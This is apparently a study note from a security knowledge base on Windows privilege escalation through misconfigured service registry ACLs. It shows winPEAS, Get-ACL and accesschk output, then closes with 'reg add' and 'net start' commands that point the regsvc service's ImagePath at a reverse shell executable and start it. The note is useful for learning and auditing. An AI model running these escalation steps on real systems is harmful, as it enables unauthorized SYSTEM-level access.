 
# Weak Registry Permissions
The Windows [registry](../../../computers/windows/registry.md) stores entries *for each service*. Registry entries *have [ACLs](../../../computers/windows/active-directory/ACLs.md)* and if the ACL is misconfigured, it *may be possible to modify a service's configuration* (even if we can't modify the service directly).
## Check for Misconfigurations
### winPEAS
We can check for misconfigurations service misconfigurations using [winPEAS](../../../cybersecurity/TTPs/actions-on-objective/tools/winPEAS.md) `servicesinfo` flag:
```ps
PS C:\Users\admin> .\winPEASany.exe quiet servicesinfo
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...
  WinPEAS vBETA VERSION, Please if you find any issue let me know in https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues by carlospolop

...

  [+] Interesting Services -non Microsoft-(T1007)
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles, AllAccess
    File Permissions: Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files\DACL Service (Administrators [AllAccess])

    HKLM\system\currentcontrolset\services\RasAuto (Administrators [GenericAll TakeOwnership])
    HKLM\system\currentcontrolset\services\Rasl2tp (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RasMan (Administrators [GenericAll TakeOwnership])
    HKLM\system\currentcontrolset\services\RasPppoe (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RasSstp (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\rdbss (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDMANDK (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\rdpbus (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDPDR (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDPNP (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RDPUDD (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\RdpVideoMiniport (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\rdyboost (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\ReFS (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\ReFSv1 (Administrators [TakeOwnership])
    HKLM\system\currentcontrolset\services\regsvc (Interactive [TakeOwnership], Administrators [TakeOwnership])
```
At the bottom of the output, you can see that the `regsvc` service (the registry) has a misconfiguration. We can double check it with `Get-ACL`
#### Verify with `Get-ACL`
To check the ACLs of the `regsvc` service, run `Get-ACL` (remember to add the `:` in the path):
```ps
PS C:\Users\admin> Get-ACL HKLM:\system\currentcontrolset\services\regsvc | Format-List

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
```
### Verify with `accesschk.exe`
[AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) is a SysInternals tool. We can use it to verify the misconfiguration in `regsvc` by giving it the registry key path:
```ps
PS C:\Users\admin> ./accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
HKLM\System\CurrentControlSet\Services\regsvc\Security
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
```
## Privilege Escalation
With the above misconfigured registry key, we can gain [privesc](../../../cybersecurity/TTPs/actions-on-objective/privesc/README.md) by *overwriting the `regsvc`'s `ImagePath` value* to point directly at our own [reverse shell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) executable. We can do this using the `reg` command with the `add` flag:
```ps
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d reverse.exe /f
```
Once we've done that, we have to *restart* the service (which we can do with the `net start` command sequence):
```ps
net start regsvc
```

> [!Resources]
> - [AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) 